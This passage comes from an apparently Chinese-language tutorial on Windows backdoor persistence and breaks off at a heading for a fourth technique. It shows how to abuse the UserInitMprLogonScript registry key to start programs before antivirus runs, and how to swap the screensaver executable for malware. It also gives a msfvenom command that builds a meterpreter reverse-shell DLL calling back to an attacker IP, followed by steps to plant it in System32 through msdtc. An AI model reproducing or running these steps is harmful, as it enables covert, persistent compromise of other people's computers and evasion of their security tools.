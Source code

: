 ### 0x11 Logon Scripts

Logon Scripts优先于 av 先执行，我们可以利用这一点来绕过 av 的敏感操作拦截

注册表路径为： HKEY_CURRENT_USER\Environment ，创建一个键为： UserInitMprLogonScript ，其键值为我们要启动的程序路径：

[![](https://img2020.cnblogs.com/blog/1561366/202003/1561366-20200310150536075-710529979.png)](https://img2020.cnblogs.com/blog/1561366/202003/1561366-20200310150536075-710529979.png)

当用户登录或者重启时，目标程序就会先行启动

### 0x12 屏幕保护程序

在对方开启屏幕保护的情况下，我们可以修改屏保程序为我们的恶意程序从而达到后门持久化的目的 其中屏幕保护的配置存储在注册表中

其位置为：HKEY_CURRENT_USER\Control Panel\Desktop，关键键值如下：

```
Copy`SCRNSAVE.EXE        - 默认屏幕保护程序，我们可以把这个键值改为我们的恶意程序
ScreenSaveActive    - 1表示屏幕保护是启动状态，0表示表示屏幕保护是关闭状态
ScreenSaverTimeout  - 指定屏幕保护程序启动前系统的空闲事件，单位为秒，默认为900（15分钟）` 
```

设置如下：  
[![](http://www.0-sec.org/%E5%AE%89%E5%85%A8%E6%8A%80%E6%9C%AF/Windows%E5%90%8E%E9%97%A8/img/8.png)](http://www.0-sec.org/%E5%AE%89%E5%85%A8%E6%8A%80%E6%9C%AF/Windows%E5%90%8E%E9%97%A8/img/8.png)

### 0x13 域环境下的msdtc

msdtc.exe 存在于组环境和域环境中

[![](https://img2020.cnblogs.com/blog/1561366/202004/1561366-20200418224048267-701840535.png)](https://img2020.cnblogs.com/blog/1561366/202004/1561366-20200418224048267-701840535.png)

```
Copy`#生成dll木马文件
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.7 LPORT=8888 -f dll > oci.dll

#将刚才生成的 oci.dll 上传到目标机器的 C:\Windows\System32 目录下
$upload oci.dll C:\\Windows
$shell
C:\Windows>move oci.dll c:\Windows\System32

#使用命令关闭msdtc进程
taskkill /f /im msdtc.exe

#重启msdtc
net start msdtc

#为了获得system权限，可采用降权启动，使用命令
msdtc -install` 
```

详细内容阅读：[http://hackergu.com/power-msdtc/](http://hackergu.com/power-msdtc/)

### 0x14 waitfor
